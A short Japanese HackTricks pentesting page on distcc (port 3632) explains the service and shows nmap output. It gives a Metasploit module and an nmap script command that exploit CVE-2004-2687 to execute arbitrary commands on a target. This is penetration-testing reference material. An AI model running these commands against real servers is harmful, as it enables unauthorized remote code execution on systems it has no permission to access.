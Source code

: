 {{#include ../banners/hacktricks-training.md}}

# 基本情報

**Distcc**は、ネットワーク内の他のコンピュータの**アイドル処理能力**を利用して**コンパイルプロセス**を強化するツールです。**distcc**がマシンに設定されると、このマシンは他のシステムに**コンパイルタスク**を分配することができます。この受信システムは**distccdデーモン**を実行しており、送信されたコードを処理するために**互換性のあるコンパイラ**がインストールされている必要があります。

**デフォルトポート:** 3632
```
PORT     STATE SERVICE
3632/tcp open  distccd
```
# 利用

**CVE-2004-2687** に対して脆弱性があるか確認し、任意のコードを実行します:
```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
# Shodan

_このサービスをshodanが検出するとは思いません。_

# Resources

- [https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)
- [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

Post created by **Álex B (@r1p)**

{{#include ../banners/hacktricks-training.md}}
